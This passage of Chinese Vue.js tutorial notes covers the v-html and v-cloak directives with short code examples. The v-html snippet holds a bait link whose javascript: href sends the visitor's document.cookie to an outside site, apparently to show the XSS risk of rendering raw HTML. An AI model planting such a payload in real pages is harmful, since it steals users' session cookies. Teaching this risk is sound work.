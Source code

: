 ```html

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: 'clxmm',
            str: '<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        },
        methods: {}
    })
</script>

</body>
```



v-cloak

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 
				v-cloak指令（没有值）：
						1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
						2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```
